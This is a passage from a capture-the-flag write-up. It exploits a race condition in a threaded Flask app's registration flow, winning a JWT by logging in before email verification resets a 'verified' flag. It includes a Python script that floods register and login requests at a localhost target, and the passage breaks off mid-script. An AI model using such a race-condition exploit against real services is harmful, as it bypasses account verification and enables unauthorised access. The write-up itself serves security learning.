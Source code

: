 Also we can see that the flask app is running in threaded mode, so there is a possiblity of a potential race condition here, which we can exploit by registering a new user who will have ``verified`` set to true. Concurrently, we'll send a post request to the /login endpoint which will log us in before ``verfied`` is set to false again in the email verification part of the app. Hence we'll get the JWT token for the logged in user.

### Exploit

Here is the exploit that we used to get the JWT token via Race condition.

```py
# Get JWT token
import requests
import threading
import random
import string

URL = "http://127.0.0.1:1337/phantomfeed"
PROXY = {
    "http": "http://127.0.0.1:8080"
}

JWT = False

def register(username,password,email):
    data = {
        "username":username,
        "password":password,
        "email":email
    }

    r = requests.post(URL + '/register',data=data,proxies=PROXY,allow_redirects=False)


def login(username,password):
    global JWT
    data = {
        "username":username,
        "password":password
    }

    r = requests.post(URL + '/login',data=data,proxies=PROXY,allow_redirects=False)

    if(r.status_code != 401):
        print(r.headers)
        token = r.headers.get("Set-Cookie")
        print(token)
        print("USERNAME: "+username)
        JWT = True


def main():
    threads = []
    while not JWT:
        username = ''.join(random.choices(string.ascii_uppercase + string.digits, k=10))
        password = username
        email = username + "@ok.com"
        register_thread = threading.Thread(target=register,args=(username,password,email))
        threads.append(register_thread)
        register_thread.start()

        for i in range(50):
            login_thread = threading.Thread(target=login,args=(username,password))
            threads.append(login_thread)
```